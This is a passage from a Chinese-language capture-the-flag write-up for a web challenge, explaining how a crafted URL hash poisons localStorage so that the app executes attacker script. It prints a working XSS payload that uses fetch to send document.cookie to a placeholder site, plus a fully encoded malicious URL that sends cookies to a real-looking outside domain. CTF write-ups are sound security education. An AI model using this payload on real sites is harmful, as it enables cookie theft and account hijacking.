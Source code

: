 发现可以通过构造恶意 hash 来任意修改 localStorage. 那么这有什么用呢？我们继续搜索可能的攻击点：

<img alt="Untitled" src="./assets/Untitled%2019.png" width="512">

当 Web App 加载时，会从 localStorage 读一份`APPSWITCHER_ITEMS`，并会执行其中的`fix`部分. 于是，若我们将这个修改为如下值时，便能取得浏览器的 cookie，并发送给我们的服务器：

```json
{
  "switcher_2": {
    "bar": [["hole", "树洞", "#", "", null, false]],
    "dropdown": [],
    "fix": {
      "hole": "console.log('ok');fetch('https://MY_SITE/?ck='+document.cookie)"
    }
  }
}
```

构造恶意 URL：

```
https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#%2F%2Fsetflag%20APPSWITCHER_ITEMS%3D%7B%22switcher_2%22%3A%7B%22bar%22%3A%5B%5B%22hole%22%2C%22%E6%A0%91%E6%B4%9E%22%2C%22%23%22%2C%22%22%2Cnull%2Cfalse%5D%5D%2C%22dropdown%22%3A%5B%5D%2C%22fix%22%3A%7B%22hole%22%3A%22console.log('ok')%3Bfetch('https%3A%2F%2Fqbt.zisu.dev%2F%3Fck%3D'%2Bdocument.cookie)%22%7D%7D%7D?
```

